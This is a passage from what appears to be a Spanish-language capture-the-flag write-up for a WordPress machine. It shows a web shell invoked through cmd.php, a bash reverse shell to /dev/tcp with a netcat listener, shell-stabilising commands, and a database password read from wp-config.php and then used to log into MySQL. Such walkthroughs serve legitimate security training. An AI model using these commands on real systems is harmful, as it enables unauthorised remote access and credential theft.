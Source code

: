 ```css
http://pressenter.hl/wp-content/uploads/2024/cmd.php?cmd=ls
```

En nuestro caso necesitamos una reverse shell, por lo que de comando pondremos lo siguiente:

```css
bash -c 'bash >%26 /dev/tcp/<IP>/<PORT> 0>%261'
```

pero antes de enviarlo escucharemos con el netcat, en el puerto que queramos (en mi caso el 443):

```css
nc -nlvp 443
```

y ahora si enviamos la reverse shell.

## ESCALADA DE PRIVILEGIOS

Antes de poder continuar y ejecutar algo, primero tendremos que hacer un tratamiento de la tty, para hacerlo debemos ejecutar esta "serie" de comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm", y enter
export TERM=xterm
export SHELL=bash
stty rows 33 columns 128
```

Ahora si, ya estaremos dentro de manera comoda.

#### www-data

Ahora tenemos acceso al sistema, pero somos "www-data", por lo que tendremos que buscar una manera de escalar al usuario "enter". Luego de buscar un rato, se me ocurre ver la base de datos mysql, pero como tiene una contraseña, podemos intentar leer el archivo "wp-config.php" donde está instalado el wordpress y veremos una linea en la que esta el usuario y contraseña:

```css
/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );
```

Como vemos, tenemos un usuario y contraseña, por lo que veremos la base de datos para ver si encontramos una contraseña. Para conectarnos simplemente ejecutamos:

```css
mysql -u admin --password=rooteable
```

Una vez dentro ejecutaremos esto:

```css
show databases;
```
